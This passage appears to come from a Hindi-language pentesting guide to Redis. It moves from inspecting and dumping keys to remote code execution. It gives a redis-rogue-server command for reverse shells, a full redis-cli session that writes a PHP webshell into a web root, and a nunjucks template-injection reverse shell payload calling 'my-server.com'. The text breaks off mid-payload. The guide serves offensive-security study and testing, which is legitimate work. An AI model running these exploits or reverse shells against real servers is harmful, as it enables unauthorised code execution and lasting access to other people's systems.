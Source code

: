 यदि आप `GET <KEY>` चलाते समय निम्नलिखित त्रुटि प्राप्त करते हैं `-WRONGTYPE Operation against a key holding the wrong kind of value` तो इसका कारण यह हो सकता है कि कुंजी एक स्ट्रिंग या पूर्णांक के अलावा कुछ और हो और इसे प्रदर्शित करने के लिए एक विशेष ऑपरेटर की आवश्यकता होती है।

कुंजी के प्रकार को जानने के लिए, `TYPE` कमांड का उपयोग करें, नीचे सूची और हैश कुंजी के लिए उदाहरण है।
```bash
TYPE <KEY>
[ ... Type of the Key ... ]
LRANGE <KEY> 0 -1
[ ... Get list items ... ]
HGET <KEY> <FIELD>
[ ... Get hash item ... ]

# If the type used is weird you can always do:
DUMP <key>
```
**npm के साथ डेटाबेस डंप करें**[ **redis-dump**](https://www.npmjs.com/package/redis-dump) **या पायथन** [**redis-utils**](https://pypi.org/project/redis-utils/)

## Redis RCE

### इंटरैक्टिव शेल

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) स्वचालित रूप से Redis(<=5.0.5) में एक इंटरैक्टिव शेल या एक रिवर्स शेल प्राप्त कर सकता है।
```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```
### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). आपको **वेब साइट फ़ोल्डर** का **पथ** पता होना चाहिए:
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
यदि वेबशेल एक्सेस अपवाद है, तो आप बैकअप के बाद डेटाबेस को खाली कर सकते हैं और फिर से प्रयास कर सकते हैं, याद रखें कि डेटाबेस को पुनर्स्थापित करना है।

### टेम्पलेट वेबशेल

जैसे पिछले अनुभाग में, आप कुछ html टेम्पलेट फ़ाइल को भी ओवरराइट कर सकते हैं जिसे एक टेम्पलेट इंजन द्वारा व्याख्यायित किया जाएगा और एक शेल प्राप्त कर सकते हैं।

उदाहरण के लिए, [**इस लेख**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/) का पालन करते हुए, आप देख सकते हैं कि हमलावर ने **nunjucks टेम्पलेट इंजन** द्वारा व्याख्यायित एक **html में rev shell** इंजेक्ट किया:
```javascript
{{ ({}).constructor.constructor(
"var net = global.process.mainModule.require('net'),
cp = global.process.mainModule.require('child_process'),
sh = cp.spawn('sh', []);
var client = new net.Socket();
client.connect(1234, 'my-server.com', function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
```